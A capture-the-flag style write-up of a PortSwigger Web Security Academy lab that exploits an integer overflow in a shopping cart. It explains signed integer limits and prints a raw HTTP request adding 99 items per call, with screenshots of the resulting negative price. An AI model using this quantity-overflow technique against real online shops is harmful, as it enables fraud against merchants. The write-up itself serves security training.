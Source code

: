 # Lab: Low-level logic flaw

## Lab Description

This lab doesn't **adequately validate user input**. You can exploit a logic flaw in its **purchasing workflow to buy items for an unintended price**. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Lab Solution

**Lessons Learned**: Integer overflow is tricky to notice, but it can have disastrous results on special occasions.

**What is integer overflow?**

In programming languages, integers are typically allocated a specific number of bits in memory to store numeric values. For instance, a 32-bit integer data type reserves space to hold an unsigned integer ranging between 0 and 4,294,967,295 or a signed integer within the range of −2,147,483,648 to 2,147,483,647.

Because integers are signed by default, an integer overflow can lead to unexpected consequences when a value exceeds the maximum limit. This overflow might cause a change in the signedness of the integer, resulting in intriguing effects on the following code execution.


![](01-most-add-at-once.png)


**HTTP Request maximum quantity to add is possible**

```
POST /cart HTTP/2
Host: 0ad7000404323496814d52450012005d.web-security-academy.net
Cookie: session=CrsoleHBAC769LZVuMvXNb5zziN2pUrY
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ad7000404323496814d52450012005d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7000404323496814d52450012005d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

productId=1&redir=PRODUCT&quantity=99
```

![](02-intruder-setting.png)

![](02-intruder-setting-payloads.png)

![](03-price-fliped.png)

![](04-error-total-price-cannot-be-less-then-0.png)

![](06-final-order.png)

![](07-ordered.png)



https://medium.com/@d.harish008/business-logic-vulnerabilities-low-level-logic-flaw-f308a21a945d
https://www.acunetix.com/blog/web-security-zone/what-is-integer-overflow/
https://www.cs.utexas.edu/~shmat/courses/cs361s/blexim.txt
